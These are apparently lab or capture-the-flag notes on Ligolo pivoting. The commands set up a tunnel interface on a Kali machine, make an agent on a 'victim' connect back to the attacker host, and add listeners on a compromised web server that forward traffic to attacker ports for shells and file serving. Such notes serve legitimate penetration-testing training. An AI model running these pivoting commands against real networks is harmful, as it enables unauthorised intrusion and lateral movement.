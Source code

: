 agent.se
proxy on kali
agent on victim
sudo ip tuntap add user kali mode tun ligolo
sudo ip link set ligolo up
sudo ip route add 172.16.5.0/24 dev ligolo
./proxy -selfcert -laddr 0.0.0.0:9001

./agent -connect 10.10.14.213:9001 -ignore-cert

session
start

Creates a listener on the machine where we're running the agent at port 1234  
 and redirects the traffic to port 4444 on our machine.  
 You can use other ports, of course.  
  
listener_add --addr 0.0.0.0:1234 --to 0.0.0.0:4444  //on agent

 Listener on the compromised web server at port 1235 forwarding traffic   
 to port 8000.  
  
 You can use any port you like, in our example I'm using port 8000   
 as it's the default port for a python HTTP server.  
  
listener_add --addr 0.0.0.0:1235 --to 0.0.0.0:8000  //on agent



